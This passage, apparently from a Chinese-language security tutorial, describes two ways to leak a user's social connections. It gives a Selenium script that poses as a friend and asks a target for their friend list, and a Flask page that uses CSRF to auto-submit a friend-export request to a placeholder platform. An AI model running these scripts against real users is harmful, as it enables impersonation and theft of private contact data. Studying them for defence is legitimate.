 #### 3.3.1 假冒好友

攻击者通过假冒用户的好友，诱使用户泄露社交关系链信息。

**攻击步骤：**
1. 创建一个与用户好友相似的虚假账号。
2. 通过虚假账号与用户互动，获取社交关系链信息。

**实验环境搭建：**
- 使用社交平台创建一个虚假账号。
- 使用`Selenium`自动化工具模拟用户互动。

**代码示例：**
```python
from selenium import webdriver
import time

driver = webdriver.Chrome()
driver.get('https://social-platform.com/login')

# 登录虚假账号
username = driver.find_element_by_name('username')
password = driver.find_element_by_name('password')
username.send_keys('fake_user')
password.send_keys('fake_password')
driver.find_element_by_name('login').click()

# 与目标用户互动
driver.get('https://social-platform.com/user/target_user')
driver.find_element_by_name('message').send_keys('Hey, can you share your friend list?')
driver.find_element_by_name('send').click()

time.sleep(5)
driver.quit()
```

### 3.4 漏洞利用

#### 3.4.1 CSRF攻击

攻击者通过跨站请求伪造（CSRF）攻击，诱使用户在不知情的情况下执行操作，泄露社交关系链。

**攻击步骤：**
1. 创建一个恶意网站，包含CSRF攻击代码。
2. 诱使用户访问恶意网站。
3. 用户访问恶意网站时，自动执行操作，泄露社交关系链。

**实验环境搭建：**
- 使用`Flask`框架搭建恶意网站。
- 使用`ngrok`工具将恶意网站暴露到公网。

**代码示例：**
```python
from flask import Flask, render_template_string

app = Flask(__name__)

@app.route('/')
def index():
    csrf_payload = '''
    <form action="https://social-platform.com/export_friends" method="POST">
        <input type="hidden" name="export" value="true">
    </form>
    <script>document.forms[0].submit();</script>
    '''
    return render_template_string(csrf_payload)

```